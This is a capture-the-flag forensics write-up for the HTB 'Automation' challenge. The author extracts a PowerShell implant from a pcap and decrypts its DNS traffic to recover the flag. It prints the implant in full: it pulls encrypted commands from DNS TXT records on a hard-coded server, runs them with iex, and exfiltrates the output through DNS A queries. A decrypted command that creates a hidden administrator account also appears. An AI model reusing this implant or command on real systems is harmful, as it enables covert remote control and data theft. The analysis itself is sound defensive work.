










# Automation - Forensics Challenge
## Challenge Description



The downloadable part for this challenge was a zip file containing a pcap. I really enjoyed solving this challenge, this was my first ctf challenge that used DNS exfiltration. I also enjoy powershell challenges.


```sh
-rwxr-xr-x 1 kali kali 5517143 May  4 11:44 capture.pcap
-rw-r--r-- 1 kali kali 5241537 May 14 15:39 forensics_automation.zip
```


## Analyzing the pcap

Initially looking through I saw some things that stood out. It looked like some strange files were downloaded. 





I decided to export HTTP objects to see what was there and I saw a bunch of files.



I was unable to read anything useful from the exe file, and the pinrules file is an stl file, which is a 3D model.

```sh
kali@kali-[~/boxes/ctfs/apocalypse/forensics/automation]$file pinrulesstl.cab%3f3ff5c31604b510fa 
pinrulesstl.cab%3f3ff5c31604b510fa: Microsoft Cabinet archive data, Windows 2000/XP setup, 7796 bytes, 1 file, at 0x2c +A "pinrules.stl", number 1, 1 datablock, 0x1 compression
```

I was unable to do anything with this either, it failed to open and strings showed nothing useful. The file of interest in this list was actually desktop.png. Running file on it returns ASCII text.

```sh
kali@kali-[~/boxes/ctfs/apocalypse/forensics/automation]$file desktop.png
desktop.png: ASCII text, with very long lines
```


Viewing the data, it appears to be base64 encoded text.

```sh
kali@kali-[~/boxes/ctfs/apocalypse/forensics/automation]$cat desktop.png 
ZnVuY3Rpb24gQ3JlYXRlLUFlc01hbmFnZWRPYmplY3QoJGtleSwgJElWKSB7CiAgICAkYWVzTWFuYWdlZCA9IE5ldy1PYmplY3QgIlN5c3RlbS5TZWN1cml0eS5DcnlwdG9ncmFwaHkuQWVzTWFuYWdlZCIKICAgICRhZXNNYW5hZ2VkLk1vZGUgPSBbU3lzdGVtLlNlY3VyaXR5LkNyeXB0b2dyYXBoeS5DaXBoZXJNb2RlXTo6Q0JDCiAgICAkYWVzTWFuYWdlZC5QYWRkaW5nID0gW1N5c3RlbS5TZWN1cml0eS5DcnlwdG9ncmFwaHkuUGFkZGluZ01vZGVdOjpaZXJvcwogICAgJGFlc01hbmFnZWQuQmxvY2tTaXplID0gMTI4CiAgICAkYWVzTWFuYWdlZC5LZXlTaXplID0gMjU2CiAgICBpZiAoJElWKSB7CiAgICAgICAgaWYgKCRJVi5nZXRUeXBlKCkuTmFtZSAtZXEgIlN0cmluZyIpIHsKICAgICAgICAgICAgJGFlc01hbmFnZWQuSVYgPSBbU3lzdGVtLkNvbnZlcnRdOjpGcm9tQmFzZTY0U3RyaW5nKCRJVikKICAgICAKICAgICAgICB9CiAgICAgICAgZWxzZSB7CiAgICAgICAgICAgICRhZXNNYW5hZ2VkLklWID0gJElWCiAgICAgCgogICAgICAgIH0KICAgIH0KICAgIGlmICgka2V5KSB7CgogICAgICAgIGlmICgka2V5LmdldFR5cGUoKS5OYW1lIC1lcSAiU3RyaW5nIikgewogICAgICAgICAgICAkYWVzTWFuYWdlZC5LZXkgPSBbU3lzdGVtLkNvbnZlcnRdOjpGcm9tQmFzZTY0U3RyaW5nKCRrZXkpCiAgICAgICAgfQogICAgICAgIGVsc2UgewogICAgICAgICAgICAkYWVzTWFuYWdlZC5LZXkgPSAka2V5CiAgICAgICAgfQogICAgfQogICAgJGFlc01hbmFnZWQKfQoKZnVuY3Rpb24gQ3JlYXRlLUFlc0tleSgpIHsKICAKICAgICRhZXNNYW5hZ2VkID0gQ3JlYXRlLUFlc01hbmFnZWRPYmplY3QgJGtleSAkSVYKICAgIFtTeXN0ZW0uQ29udmVydF06OlRvQmFzZTY0U3RyaW5nKCRhZXNNYW5hZ2VkLktleSkKfQoKZnVuY3Rpb24gRW5jcnlwdC1TdHJpbmcoJGtleSwgJHVuZW5jcnlwdGVkU3RyaW5nKSB7CiAgICAkYnl0ZXMgPSBbU3lzdGVtLlRleHQuRW5jb2RpbmddOjpVVEY4LkdldEJ5dGVzKCR1bmVuY3J5cHRlZFN0cmluZykKICAgICRhZXNNYW5hZ2VkID0gQ3JlYXRlLUFlc01hbmFnZWRPYmplY3QgJGtleQogICAgJGVuY3J5cHRvciA9ICRhZXNNYW5hZ2VkLkNyZWF0ZUVuY3J5cHRvcigpCiAgICAkZW5jcnlwdGVkRGF0YSA9ICRlbmNyeXB0b3IuVHJhbnNmb3JtRmluYWxCbG9jaygkYnl0ZXMsIDAsICRieXRlcy5MZW5ndGgpOwogICAgW2J5dGVbXV0gJGZ1bGxEYXRhID0gJGFlc01hbmFnZWQuSVYgKyAkZW5jcnlwdGVkRGF0YQogICAgJGFlc01hbmFnZWQuRGlzcG9zZSgpCiAgICBbU3lzdGVtLkJpdENvbnZlcnRlcl06OlRvU3RyaW5nKCRmdWxsRGF0YSkucmVwbGFjZSgiLSIsIiIpCn0KCmZ1bmN0aW9uIERlY3J5cHQtU3RyaW5nKCRrZXksICRlbmNyeXB0ZWRTdHJpbmdXaXRoSVYpIHsKICAgICRieXRlcyA9IFtTeXN0ZW0uQ29udmVydF06OkZyb21CYXNlNjRTdHJpbmcoJGVuY3J5cHRlZFN0cmluZ1dpdGhJVikKICAgICRJViA9ICRieXRlc1swLi4xNV0KICAgICRhZXNNYW5hZ2VkID0gQ3JlYXRlLUFlc01hbmFnZWRPYmplY3QgJGtleSAkSVYKICAgICRkZWNyeXB0b3IgPSAkYWVzTWFuYWdlZC5DcmVhdGVEZWNyeXB0b3IoKTsKICAgICR1bmVuY3J5cHRlZERhdGEgPSAkZGVjcnlwdG9yLlRyYW5zZm9ybUZpbmFsQmxvY2soJGJ5dGVzLCAxNiwgJGJ5dGVzLkxlbmd0aCAtIDE2KTsKICAgICRhZXNNYW5hZ2VkLkRpc3Bvc2UoKQogICAgW1N5c3RlbS5UZXh0LkVuY29kaW5nXTo6VVRGOC5HZXRTdHJpbmcoJHVuZW5jcnlwdGVkRGF0YSkuVHJpbShbY2hhcl0wKQp9CgpmaWx0ZXIgcGFydHMoJHF1ZXJ5KSB7ICR0ID0gJF87IDAuLlttYXRoXTo6Zmxvb3IoJHQubGVuZ3RoIC8gJHF1ZXJ5KSB8ICUgeyAkdC5zdWJzdHJpbmcoJHF1ZXJ5ICogJF8sIFttYXRoXTo6bWluKCRxdWVyeSwgJHQubGVuZ3RoIC0gJHF1ZXJ5ICogJF8pKSB9fSAKJGtleSA9ICJhMUU0TVV0eWNXc3dUbXRyTUhkcWRnPT0iCiRvdXQgPSBSZXNvbHZlLURuc05hbWUgLXR5cGUgVFhUIC1EbnNPbmx5IHdpbmRvd3NsaXZldXBkYXRlci5jb20gLVNlcnZlciAxNDcuMTgyLjE3Mi4xODl8U2VsZWN0LU9iamVjdCAtUHJvcGVydHkgU3RyaW5nczsKZm9yICgkbnVtID0gMCA7ICRudW0gLWxlICRvdXQuTGVuZ3RoLTI7ICRudW0rKyl7CiRlbmNyeXB0ZWRTdHJpbmcgPSAkb3V0WyRudW1dLlN0cmluZ3NbMF0KJGJhY2tUb1BsYWluVGV4dCA9IERlY3J5cHQtU3RyaW5nICRrZXkgJGVuY3J5cHRlZFN0cmluZwokb3V0cHV0ID0gaWV4ICRiYWNrVG9QbGFpblRleHQ7JHByID0gRW5jcnlwdC1TdHJpbmcgJGtleSAkb3V0cHV0fHBhcnRzIDMyClJlc29sdmUtRG5zTmFtZSAtdHlwZSBBIC1EbnNPbmx5IHN0YXJ0LndpbmRvd3NsaXZldXBkYXRlci5jb20gLVNlcnZlciAxNDcuMTgyLjE3Mi4xODkKZm9yICgkYW5zID0gMDsgJGFucyAtbHQgJHByLmxlbmd0aC0xOyAkYW5zKyspewokZG9tYWluID0gLWpvaW4oJHByWyRhbnNdLCIud2luZG93c2xpdmV1cGRhdGVyLmNvbSIpClJlc29sdmUtRG5zTmFtZSAtdHlwZSBBIC1EbnNPbmx5ICRkb21haW4gLVNlcnZlciAxNDcuMTgyLjE3Mi4xODkKICAgIH0KUmVzb2x2ZS1EbnNOYW1lIC10eXBlIEEgLURuc09ubHkgZW5kLndpbmRvd3NsaXZldXBkYXRlci5jb20gLVNlcnZlciAxNDcuMTgyLjE3Mi4xODkKfQ==
```


I decoded this into output.

```sh
kali@kali-[~/boxes/ctfs/apocalypse/forensics/automation]$cat desktop.png | base64 -d > output
```

The base64 turned out to be a powershell script

```powershell
kali@kali-[~/boxes/ctfs/apocalypse/forensics/automation]$cat output
function Create-AesManagedObject($key, $IV) {
    $aesManaged = New-Object "System.Security.Cryptography.AesManaged"
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::Zeros
    $aesManaged.BlockSize = 128
    $aesManaged.KeySize = 256
    if ($IV) {
        if ($IV.getType().Name -eq "String") {
            $aesManaged.IV = [System.Convert]::FromBase64String($IV)
     
        }
        else {
            $aesManaged.IV = $IV
     

        }
    }
    if ($key) {

        if ($key.getType().Name -eq "String") {
            $aesManaged.Key = [System.Convert]::FromBase64String($key)
        }
        else {
            $aesManaged.Key = $key
        }
    }
    $aesManaged
}

function Create-AesKey() {
  
    $aesManaged = Create-AesManagedObject $key $IV
    [System.Convert]::ToBase64String($aesManaged.Key)
}

function Encrypt-String($key, $unencryptedString) {
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($unencryptedString)
    $aesManaged = Create-AesManagedObject $key
    $encryptor = $aesManaged.CreateEncryptor()
    $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
    [byte[]] $fullData = $aesManaged.IV + $encryptedData
    $aesManaged.Dispose()
    [System.BitConverter]::ToString($fullData).replace("-","")
}

function Decrypt-String($key, $encryptedStringWithIV) {
    $bytes = [System.Convert]::FromBase64String($encryptedStringWithIV)
    $IV = $bytes[0..15]
    $aesManaged = Create-AesManagedObject $key $IV
    $decryptor = $aesManaged.CreateDecryptor();
    $unencryptedData = $decryptor.TransformFinalBlock($bytes, 16, $bytes.Length - 16);
    $aesManaged.Dispose()
    [System.Text.Encoding]::UTF8.GetString($unencryptedData).Trim([char]0)
}

filter parts($query) { $t = $_; 0..[math]::floor($t.length / $query) | % { $t.substring($query * $_, [math]::min($query, $t.length - $query * $_)) }} 
$key = "a1E4MUtycWswTmtrMHdqdg=="
$out = Resolve-DnsName -type TXT -DnsOnly windowsliveupdater.com -Server 147.182.172.189|Select-Object -Property Strings;
for ($num = 0 ; $num -le $out.Length-2; $num++){
$encryptedString = $out[$num].Strings[0]
$backToPlainText = Decrypt-String $key $encryptedString
$output = iex $backToPlainText;$pr = Encrypt-String $key $output|parts 32
Resolve-DnsName -type A -DnsOnly start.windowsliveupdater.com -Server 147.182.172.189
for ($ans = 0; $ans -lt $pr.length-1; $ans++){
$domain = -join($pr[$ans],".windowsliveupdater.com")
Resolve-DnsName -type A -DnsOnly $domain -Server 147.182.172.189
    }
Resolve-DnsName -type A -DnsOnly end.windowsliveupdater.com -Server 147.182.172.189
}
```


## Analyzing the Powershell

I transferred the powershell script to my Windows VM so I could mess around with it. I am no expert in powershell, but I really enjoy the powershell challenges as I find it generally easier to debug and make sense of. The top of the script contains the functions for encrypting, decrypting and creating an AesManagedObject. The main part of the function is at the bottom.

```powershell
filter parts($query) { $t = $_; 0..[math]::floor($t.length / $query) | % { $t.substring($query * $_, [math]::min($query, $t.length - $query * $_)) }} 
$key = "a1E4MUtycWswTmtrMHdqdg=="
$out = Resolve-DnsName -type TXT -DnsOnly windowsliveupdater.com -Server 147.182.172.189|Select-Object -Property Strings;
for ($num = 0 ; $num -le $out.Length-2; $num++){
$encryptedString = $out[$num].Strings[0]
$backToPlainText = Decrypt-String $key $encryptedString
$output = iex $backToPlainText;$pr = Encrypt-String $key $output|parts 32
Resolve-DnsName -type A -DnsOnly start.windowsliveupdater.com -Server 147.182.172.189
for ($ans = 0; $ans -lt $pr.length-1; $ans++){
$domain = -join($pr[$ans],".windowsliveupdater.com")
Resolve-DnsName -type A -DnsOnly $domain -Server 147.182.172.189
    }
Resolve-DnsName -type A -DnsOnly end.windowsliveupdater.com -Server 147.182.172.189
```

In this block of code a few things stand out. I have a key hard coded into the script and it appears to be making DNS requests to a specific IP address for a windowsliveupdater.com domain. I went back to wireshark and filtered for the IP address in the script.



The traffic shown is a TXT query followed by a bunch of A queries with domain names such as "CC1C9AC2958A2E63609272E2B4F8F436.windowsliveupdate.rcom"


Looking further into the TXT response, I see what looks to be base64 encoded text, a total of 7 responses. 



```sh
Ifu1yiK5RMABD4wno66axIGZuj1HXezG5gxzpdLO6ws=

hhpgWsOli4AnW9g/7TM4rcYyvDNky4yZvLVJ0olX5oA=

58v04KhrSziOyRaMLvKM+JrCHpM4WmvBT/wYTRKDw2s=

eTtfUgcchm/R27YJDP0iWnXHy02ijScdI4tUqAVPKGf3nsBE28fDUbq0C8CnUnJC57lxUMYFSqHpB5bhoVTYafNZ8+ijnMwAMy4hp0O4FeH0Xo69ahI8ndUfIsiD/Bru

BbvWcWhRToPqTupwX6Kf7A0jrOdYWumqaMRz6uPcnvaDvRKY2+eAl0qT3Iy1kUGWGSEoRu7MjqxYmek78uvzMTaH88cWwlgUJqr1vsr1CsxCwS/KBYJXhulyBcMMYOtcqImMiU3x0RzlsFXTUf1giNF2qZUDthUN7Z8AIwvmz0a+5aUTegq/pPFsK0i7YNZsK7JEmz+wQ7Ds/UU5+SsubWYdtxn+lxw58XqHxyAYAo0=

vJxlcLDI/0sPurvacG0iFbstwyxtk/el9czGxTAjYBmUZEcD63bco9uzSHDoTvP1ZU9ae5VW7Jnv9jsZHLsOs8dvxsIMVMzj1ItGo3dT+QrpsB4M9wW5clUuDeF/C3lwCRmYYFSLN/cUNOH5++YnX66b1iHUJTBCqLxiEfThk5A=

M3/+2RJ/qY4O+nclGPEvJMIJI4U6SF6VL8ANpz9Y6mSHwuUyg4iBrMrtSsfpA2bh
```

Trying to decode these didn't produce anything useful.



Looking closer at the decrypt function in the script it looks like it takes base64 input so I tried to decode the TXT responses. 

```powershell
function Decrypt-String($key, $encryptedStringWithIV) {
    $bytes = [System.Convert]::FromBase64String($encryptedStringWithIV)
    $IV = $bytes[0..15]
    $aesManaged = Create-AesManagedObject $key $IV
    $decryptor = $aesManaged.CreateDecryptor();
    $unencryptedData = $decryptor.TransformFinalBlock($bytes, 16, $bytes.Length - 16);
    $aesManaged.Dispose()
    [System.Text.Encoding]::UTF8.GetString($unencryptedData).Trim([char]0)
}
```

This function uses the Create-AesManagedObject function so I had to load that into powershell.

```powershell
PS C:\Windows\system32> function Create-AesManagedObject($key, $IV) {
    $aesManaged = New-Object "System.Security.Cryptography.AesManaged"
    $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::Zeros
    $aesManaged.BlockSize = 128
    $aesManaged.KeySize = 256
    if ($IV) {
        if ($IV.getType().Name -eq "String") {
            $aesManaged.IV = [System.Convert]::FromBase64String($IV)
     
        }
        else {
            $aesManaged.IV = $IV
     

        }
    }
    if ($key) {

        if ($key.getType().Name -eq "String") {
            $aesManaged.Key = [System.Convert]::FromBase64String($key)
        }
        else {
            $aesManaged.Key = $key
        }
    }
    $aesManaged
}
```

I like to run powershell line by line when reasonable so I can see exactly what is going on. So I took the first base64 TXT response and plugged that into the function. I also first had to load the key that was included in the script.

```powershell
PS C:\Windows\system32> $key = "a1E4MUtycWswTmtrMHdqdg=="

PS C:\Windows\system32> $bytes = [System.Convert]::FromBase64String("Ifu1yiK5RMABD4wno66axIGZuj1HXezG5gxzpdLO6ws=")

PS C:\Windows\system32> $IV = $bytes[0..15]

PS C:\Windows\system32> $aesManaged = Create-AesManagedObject $key $IV

PS C:\Windows\system32> $decryptor = $aesManaged.CreateDecryptor();

PS C:\Windows\system32> $unencryptedData = $decryptor.TransformFinalBlock($bytes, 16, $bytes.Length - 16);

PS C:\Windows\system32> $aesManaged.Dispose()

PS C:\Windows\system32> [System.Text.Encoding]::UTF8.GetString($unencryptedData).Trim([char]0)

hostname
```


I was successfully able to decode the commands that were being sent via DNS TXT query responses. For the sake of length, I will not provide all the decoded outputs here. The 4th TXT query response contained a net user command to add a user. The username was base64 encoded which contained the first part of the flag.

```powershell
PS C:\Windows\system32> $bytes = [System.Convert]::FromBase64String("BbvWcWhRToPqTupwX6Kf7A0jrOdYWumqaMRz6uPcnvaDvRKY2+eAl0qT3Iy1kUGWGSEoRu7MjqxYmek78uvzMTaH88cWwlgUJqr1vsr1CsxCwS/KBYJXhulyBcMMYOtcqImMiU3x0RzlsFXTUf1giNF2qZUDthUN7Z8AIwvmz0a+5aUTegq/pPFsK0i7YNZsK7JEmz+wQ7Ds/UU5+SsubWYdtxn+lxw58XqHxyAYAo0=")

PS C:\Windows\system32> $IV = $bytes[0..15]
$aesManaged = Create-AesManagedObject $key $IV
$decryptor = $aesManaged.CreateDecryptor();
$unencryptedData = $decryptor.TransformFinalBlock($bytes, 16, $bytes.Length - 16);
$aesManaged.Dispose()
[System.Text.Encoding]::UTF8.GetString($unencryptedData).Trim([char]0)
net user DefaultUsr "JHBhcnQxPSdIVEJ7eTB1X2M0bl8n" /add /Y; net localgroup Administrators /add DefaultUsr; net localgroup "Remote Desktop Users" /add DefaultUsr
```





## Decoding the Command Output

Having obtained the first part of the flag I assumed the second part might be in the A queries. Looking closer at the end of the script gave me this clue. 

```powershell
$output = iex $backToPlainText;$pr = Encrypt-String $key $output|parts 32
Resolve-DnsName -type A -DnsOnly start.windowsliveupdater.com -Server 147.182.172.189
for ($ans = 0; $ans -lt $pr.length-1; $ans++){
$domain = -join($pr[$ans],".windowsliveupdater.com")
Resolve-DnsName -type A -DnsOnly $domain -Server 147.182.172.189
    }
Resolve-DnsName -type A -DnsOnly end.windowsliveupdater.com -Server 147.182.172.189
```

It takes the plaintext that was just decoded from the TXT query (ex: hostname command) and executes that with iex. It takes this output and encrypts it using the Encrypt-String function available in the script. After encrypting and breaking down the output into a length of 32 characters using the filter parts, it joins each to ".windowsliveupdater.com" before sending the A query. I also notice a "start.windowsliveupdater.com." and "end.windowsliveupdater.com" will be the beginning and end of each response. 

I took the first A query and tried to decode it. 


```sh
CC1C9AC2958A2E63609272E2B4F8F436
32A806549B03AB7E4EB39771AEDA4A1B
C1006AC8A03F9776B08321BD6D5247BB
```





The issue here is this is not base64 so I needed to figure out how to correctly pass this into the decode function. Looking closer at the encrypt function, the last line converts the data from bytes to hex, which is actually what I see here in the URLs. Looking at the beginning of the decrypt function, it takes the base64 and converts it to bytes. So I just needed to convert this hexadecimal string to bytes and I should be able to decode this.

```powershell
function Decrypt-String($key, $encryptedStringWithIV) {
    $bytes = [System.Convert]::FromBase64String($encryptedStringWithIV)
```


I went to Google for this and found a nice few lines of powershell that will change hexadecimal to bytes. These few lines take an argument called "$Value"

Found here: https://www.powershellgallery.com/packages/AnsibleVault/0.2.0/Content/Private%5CConvert-HexToByte.ps1
```powershell
$bytes = New-Object -TypeName byte[] -ArgumentList ($Value.Length / 2)  
    for ($i = 0; $i -lt $Value.Length; $i += 2) {  
        $bytes[$i / 2] = [Convert]::ToByte($Value.Substring($i, 2), 16)  
    }
```

I first put all 3 lines from the first set of A queries together on one line.

```sh
CC1C9AC2958A2E63609272E2B4F8F43632A806549B03AB7E4EB39771AEDA4A1BC1006AC8A03F9776B08321BD6D5247BB
```

I then created the $Value variable and passed that into the powershell lines above. This successfully converted it to bytes.

```powershell
PS C:\Windows\system32> $Value = "CC1C9AC2958A2E63609272E2B4F8F43632A806549B03AB7E4EB39771AEDA4A1BC1006AC8A03F9776B08321BD6D5247BB"

PS C:\Windows\system32> $bytes = New-Object -TypeName byte[] -ArgumentList ($Value.Length / 2)  
    for ($i = 0; $i -lt $Value.Length; $i += 2) {  
        $bytes[$i / 2] = [Convert]::ToByte($Value.Substring($i, 2), 16)  
    }

PS C:\Windows\system32> $bytes
204
28
154
194
149
138
46
99
96
146
114
226
180
248
244
54
.....
```

With the $bytes variable created I ran the rest of the decrypt function and was able to read the output from the hostname command.

```powershell
PS C:\Windows\system32> $IV = $bytes[0..15]
$aesManaged = Create-AesManagedObject $key $IV
$decryptor = $aesManaged.CreateDecryptor();
$unencryptedData = $decryptor.TransformFinalBlock($bytes, 16, $bytes.Length - 16);
$aesManaged.Dispose()
[System.Text.Encoding]::UTF8.GetString($unencryptedData).Trim([char]0)

intergalacticopcenter
```

Again, for the sake of length I will not include all outputs here. The fourth block of A queries contained the second part of the flag.



I placed all the encoded parts of the domain names in one long string.

```sh
ECABC349D27C0B0FFFD1ACEEDBE06BB6C2EB000EE4F9B35D6F001500E85642A2DCC8F1BE2CF4D667F458C1DE46D24B1C2E0F5D94E52649C70402C1B0A2FF7B49FC32DDD67F275307A74B2C4D0864B3F0486186DA9443EB747F717B3911C959DC7E300844D60655410C3988238E615D616F33D27F63CE4D1E065A416911BC50D458749599D2CB08DB561988EB2902E05D9886FDDAC2BED6F6DA73637AD2F20CF199B8CE3D9DEE03C0180C7D1198B49C02769E5EE4EAB896D7D3BB478EA140816779472A243BFB0852AF372323EC1329883C81A3F2AEB1D3DAAE8496E1DBF97F435AE40A09203B890C4A174D77CB7026C4E990A6FB6424A7501823AD31D3D6B6344C7971C8D447C078C4471732AD881C394BC8B1A66E0BED43DDC359269B57D1D5D68DCD2A608BF61716BB47D6FE4D5C9D6E8BB2981F214A8234B0DD0210CA96EB2D6322B0F7F3D748C4C9F8B80EFF5A6921A3D1A8621A49F4D29BC9851D25230B
```

I then converted it into bytes and ran it through the decrypt function which gave me the second part of the flag.

```powershell
PS C:\Windows\system32> $Value = "ECABC349D27C0B0FFFD1ACEEDBE06BB6C2EB000EE4F9B35D6F001500E85642A2DCC8F1BE2CF4D667F458C1DE46D24B1C2E0F5D94E52649C70402C1B0A2FF7B49FC32DDD67F275307A74B2C4D0864B3F0486186DA9443EB747F717B3911C959DC7E300844D60655410C3988238E615D616F33D27F63CE4D1E065A416911BC50D458749599D2CB08DB561988EB2902E05D9886FDDAC2BED6F6DA73637AD2F20CF199B8CE3D9DEE03C0180C7D1198B49C02769E5EE4EAB896D7D3BB478EA140816779472A243BFB0852AF372323EC1329883C81A3F2AEB1D3DAAE8496E1DBF97F435AE40A09203B890C4A174D77CB7026C4E990A6FB6424A7501823AD31D3D6B6344C7971C8D447C078C4471732AD881C394BC8B1A66E0BED43DDC359269B57D1D5D68DCD2A608BF61716BB47D6FE4D5C9D6E8BB2981F214A8234B0DD0210CA96EB2D6322B0F7F3D748C4C9F8B80EFF5A6921A3D1A8621A49F4D29BC9851D25230B"

PS C:\Windows\system32> $bytes = New-Object -TypeName byte[] -ArgumentList ($Value.Length / 2)  
    for ($i = 0; $i -lt $Value.Length; $i += 2) {  
        $bytes[$i / 2] = [Convert]::ToByte($Value.Substring($i, 2), 16)  
    }

PS C:\Windows\system32> $IV = $bytes[0..15]
$aesManaged = Create-AesManagedObject $key $IV
$decryptor = $aesManaged.CreateDecryptor();
$unencryptedData = $decryptor.TransformFinalBlock($bytes, 16, $bytes.Length - 16);
$aesManaged.Dispose()
[System.Text.Encoding]::UTF8.GetString($unencryptedData).Trim([char]0)

    companyName=Panaman  displayName=Pan Antivirus 4.0, $part2=4utom4t3_but_y0u_c4nt_h1de}  instanceGuid={CD3EA3C2-91CB-4359-90DC-1E909147B6B0}  onAccessScanningEnabled=T
RUE  pathToSignedProductExe=panantivirus://  productHasNotifiedUser=  productState=  productUptoDate=TRUE  productWantsWscNotifications=  versionNumber=4.0.0.1 
```

Combining the two parts gave me the flag for this challenge. 


```sh
HTB{y0u_c4n_4utom4t3_but_y0u_c4nt_h1de}
```